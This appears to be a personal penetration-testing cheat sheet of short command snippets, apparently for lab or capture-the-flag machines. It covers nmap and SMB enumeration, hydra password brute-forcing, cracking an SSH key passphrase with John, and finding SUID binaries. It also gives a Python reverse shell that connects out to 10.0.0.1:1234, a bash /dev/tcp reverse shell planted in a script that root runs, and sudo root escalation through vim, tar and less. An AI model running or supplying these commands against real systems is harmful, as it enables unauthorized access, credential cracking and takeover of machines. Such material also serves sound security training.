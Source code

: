 # NMAP Basic scan with outfile 

nmap -sC -sV -oN /path/to/file ip

# Enum4linux-ng


**_enumerating smb clients and servers_**

_use example_

python3 enum4linux-ng.py -U -A -R ip

# Hydra example

hydra -l username -P /path/to/wordlist proto://ip

# Cracking the passphrase of an rsa key with John

sh2john.py rsa_file > file.txt
john file.txt

#Checkin for suid on a system run the following commands
find / -perm -u=s -type f 2>/dev/null

# Different ways to read a file

while read line; do echo $line done; < file
cat file
grep . file


# Pentestmonkey reverse shell examples
_in python it would be, note that if the machine doesnt have python2 installed(modern machines) it works with python3_

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'


#Privilege scalation with vim

there are 2 ways of running a shell as root with vim

##_First option_
sudo vim 
 -> :set shell=/bin/sh
 -> :shell

##_Second option_
sudo vim -c ':!/bin/sh'


#Privilege scalation with tar

If the user is allowed in the sudoers file we can easily become root by running _sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh_

#Using and understanding netcat

to set up a listening port in nc

nc -lnvp portnumber

#Read pcaps

Could use wireshark

If you are looking for a password strings will just do the job for it and it will provide more clarity

#Bash remote shell

echo 'bash -c "bash -i >& /dev/tcp/ip/port 0>&1"' > /path/to/script run by root

#Privesc with less
you can run less with _sudo_ against a file and enter in less's command mode by typing !/bin/sh

Example

sudo less file.log
!/bin/sh

